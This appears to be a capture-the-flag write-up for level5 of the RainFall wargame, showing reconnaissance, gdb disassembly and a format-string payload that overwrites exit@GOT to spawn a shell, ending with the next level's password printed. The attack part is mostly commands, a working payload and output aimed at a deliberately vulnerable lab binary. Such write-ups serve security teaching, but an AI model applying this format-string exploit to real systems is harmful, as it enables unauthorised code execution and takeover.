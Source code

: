 # RainFall — Level5 -> 6 Walkthrough (printf/GOT overwrite)

> Context: `level5` binary (no RELRO, no canary, NX disabled, no PIE). Goal is to pop a shell (function `o`) even though the program calls `exit` from `n`. We’ll abuse a format-string bug in `printf` to overwrite `exit@GOT` with the address of `o`.

---

## 1) Quick recon

```bash
$ file ./level5
$ checksec ./level5
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE
```

Run it:

```bash
$ ./level5
sdfsdf
sdfsdf

$ ./level5
aaaa %p %p %p
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0
```

It **echoes with `printf`** using our input as the *format string* → classic format-string vulnerability.

---

## 2) What does the code do?

Disassemble:

```bash
$ gdb ./level5
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) disas main
0x08048504 <+0>: call 0x80484c2 <n>

(gdb) disas n
0x080484c2 <+0>:   ...
0x080484e5 <+35>:  call fgets
0x080484f3 <+49>:  call printf        ; uses our input as format string
0x080484f8 <+54>:  movl $0x1,(%esp)
0x080484ff <+61>:  call exit          ; program terminates here
```

So `n()` reads a line, **printfs it** (format string bug), then **calls `exit`**.

`o()` is our “win” function:

```bash
(gdb) disas o
0x080484a4 <+0>:  system(0x80485f0)   ; "/bin/sh" string
0x080484bd <+25>: _exit(1)
```

Plan: **overwrite `exit@GOT`** to point at `o`. When `n` calls `exit`, we’ll jump to `o` instead and get a shell.

---

## 3) Leak stack layout to find our arg index

We want to know which **positional specifier** (`%4$n`, `%5$n`, …) will reference a pointer we control.

```bash
$ python -c 'print "aaaa" + " %p" * 10' > /tmp/explo
$ ./level5 < /tmp/explo
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520 0x25207025 ...
```

Notice `0x61616161` (= `'aaaa'`) appears as the **4th** printed pointer after the three fixed values.
Therefore, **our first 4 bytes** (from the input buffer) are available to `printf` as the **4th variadic argument** → we’ll use **`%4$n`**.

---

## 4) Find the addresses

* **GOT entry of `exit`:**

```bash
$ objdump -R ./level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

We’ll target: `exit@GOT = 0x08049838`.

* **Address of `o`:** from `gdb`: `o = 0x080484a4`.

We want to write the 32-bit value **`0x080484a4`** into memory at **`0x08049838`**.

---

## 5) Build the format string payload

Format-string trick:

* Put the **target address** at the start of the input so it sits where `printf` will fetch the 4th argument.
* Print **N characters**, then use **`%4$n`** to write that count to the address pointed to by the 4th argument.
* Choose **N = 0x080484a4 (decimal 134,513,828)**, adjusted for whatever bytes `printf` has already emitted before `%d`.

Working payload from your session:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/explo
```

Notes:

* `\x38\x98\x04\x08` is **little-endian** `0x08049838` (the GOT address for `exit`).
* We used `%134513824d` so that **total chars printed** at the moment of `%4$n` equals (in this runtime) the target value `0x080484a4`.
  Minor off-by-few adjustments are **normal** because some leading bytes (like the ASCII `'8'` from `0x38`) get printed and counted. If your value is off, tweak the number.

---

## 6) Trigger the overwrite and get a shell

Run the program with the crafted input:

```bash
$ ./level5 < /tmp/explo
```

Now the GOT slot for `exit` points to `o`. The next `exit()` from `n` actually calls `o` → `system("/bin/sh")` drops a shell under `level6`.

Use the implicit shell:

```bash
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## 7) Why this works (quick recap)

* **Vuln:** `printf(user_input)` (format string) lets us read/write arbitrary memory with `%p`, `%n`, etc.
* **No RELRO** means **GOT is writable** at runtime.
* **Overwrite `exit@GOT` → `o`** using `%n`.
* When `n()` calls `exit`, control flow diverts to `o()` → `system("/bin/sh")` → shell.

---

## 8) Troubleshooting tips

* If the program exits without shell: your write likely missed. Re-check:

  * Correct GOT entry (use `objdump -R`).
  * Correct target address of `o`.
  * Correct **positional index** for `%n` (here it’s `%4$n` because our data showed up as the 4th argument).
  * Adjust the decimal padding by a small amount (± a few) until the write lands exactly.
* If the program crashes immediately, you might be writing an impossible value or to the wrong place.
* If blocked by `Permission denied` writing to `/tmp/expl`, use a different filename (you used `/tmp/explo`, which worked).

---

That’s it. Clean, reliable GOT overwrite → shell → grab the next password.
